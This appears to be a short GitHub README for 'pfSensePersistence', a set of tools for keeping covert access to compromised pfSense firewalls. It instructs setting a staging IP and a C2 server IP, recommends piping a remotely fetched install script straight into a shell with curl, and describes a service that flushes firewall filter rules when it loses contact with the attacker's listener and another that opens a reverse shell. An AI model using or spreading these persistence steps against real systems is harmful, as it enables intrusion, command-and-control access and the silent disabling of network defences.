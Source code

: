 # pfSensePersistence
A collection of pfsense persistence tools

## Install
Run install.sh to install Breakout and Service Shell. Set staging IP(machine serving files) and C2 IP(server to connect back to). Assumed to be serving files with ```python -m http.server```
Recommend to pipe directly to shell, ie ```curl -s <IP>:8000/install.sh | sh```

## Breakout
Service that will check if it can connect back to the listener periodically. If it can't, it will flush the filter rules

## Service Shell
Basic service to make a reverse shell
